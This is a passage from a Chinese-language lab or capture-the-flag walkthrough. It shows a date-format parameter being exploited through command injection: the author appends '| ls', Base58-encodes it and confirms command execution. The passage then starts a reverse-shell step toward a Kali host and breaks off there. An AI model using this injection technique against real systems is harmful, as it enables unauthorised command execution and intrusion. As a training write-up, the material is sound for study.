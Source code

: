         是可以修改的，这里可能是突破点
        
6. 我们将注意力放在`'+Today is TESTTEST %A, %B %d, %Y %H:%M:%S.'` ，将其投喂给`GPT`后发现不是`Node.js`
    
    ```python
    # GPT 原话
    在 Node.js 中，这样的格式化字符串一般不会直接使用像 %A、%B 这样的占位符，
    因为 JavaScript（包括 Node.js）的日期时间处理方式和其他语言（如 Python）有所不同。
    ```
    
    最后得知是`Linux`中的`Date`命令
    
    ![image.png](image%20100.png)
    
    很难不怀疑是命令执行
    
7. 通过使用`Linux`构造命令，然后进行编码尝试是否存在命令执行
    
    ```python
    '+Today is TESTTEST %A, %B %d, %Y %H:%M:%S.' | ls
    ```
    
    会将前面的结果传递给后面的命令作为命令，但是`ls`不接受前面的结果，所以会直接执行`ls`
    
    进行`Base58`编码
    
    ```python
    7LpzQUvtAU8ezh7iNvMhdy7bv2ZW8RaxEkthfeUDjBN2WGYxytPqosuP9BtJfrTBUSn
    ```
    
    然后通过上面抓包的方式将参数进行替换后
    
    ![image.png](image%20101.png)
    
    可以发现将`ls`的结果打印出来了
    

### 尝试获得shell

1. 将参数修改为反弹`shell`的命令（`192.168.56.10`是`kali`）
    
    PS:突然发现较新的靶机都不能直接通过`nc`来反弹`shell`，需要通过`bash`来反弹
    